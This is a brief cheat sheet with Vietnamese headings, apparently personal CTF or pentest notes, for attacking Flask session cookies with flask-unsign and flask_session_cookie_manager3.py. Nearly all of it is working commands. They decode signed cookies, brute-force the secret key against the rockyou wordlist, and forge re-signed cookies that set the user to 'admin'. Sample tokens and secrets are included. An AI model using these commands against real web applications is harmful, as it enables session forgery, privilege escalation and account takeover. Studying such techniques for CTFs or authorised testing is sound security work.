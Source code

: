 # Flask Python

# flask-unsign

## Để decode cookie
```cmd
flask-unsign --decode --cookie 'eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.YN0XnA.7gxzLqrMvac6qFqngQVIbabvHAY' 
```

## Để dò secret
```cmd
flask-unsign --unsign --cookie "eyJsb2dnZWRfaW4iOmZhbHNlfQ.Ygt8RQ.52SYm7QRoH1nDDyPYgof8wWWEmw"  --wordlist /../../rockyou.txt --no-literal-eval
```

## Thay đổi cookie và bỏ secret vào
```cmd
flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret 'peanut butter'
```

# Flask Session Cookie

## Để decode cookie với secret
```cmd
python3 flask_session_cookie_manager3.py decode -c 'eyJudW1iZXIiOnsiIGIiOiJNekkyTkRFd01ETXhOVEExIn0sInVzZXJuYW1lIjp7IiBiIjoiWVdSdGFXND0ifX0.DE2iRA.ig5KSlnmsDH4uhDpmsFRPupB5Vw' -s '.{y]tR&sp&77RdO~u3@XAh#TalD@Oh~yOF_51H(QV};K|ghT^d'
```

## decode ko có secret 
```cmd
python3 flask_session_cookie_manager3.py decode -c 'eyJudW1iZXIiOnsiIGIiOiJNekkyTkRFd01ETXhOVEExIn0sInVzZXJuYW1lIjp7IiBiIjoiWVdSdGFXND0ifX0.DE2iRA.ig5KSlnmsDH4uhDpmsFRPupB5Vw'
```


## Thay đổi cookie và bỏ secret vào
```cmd
python3 flask_session_cookie_manager3.py encode -s '.{y]tR&sp&77RdO~u3@XAh#TalD@Oh~yOF_51H(QV};K|ghT^d' -t '{"number":"326410031505","username":"admin"}'
```
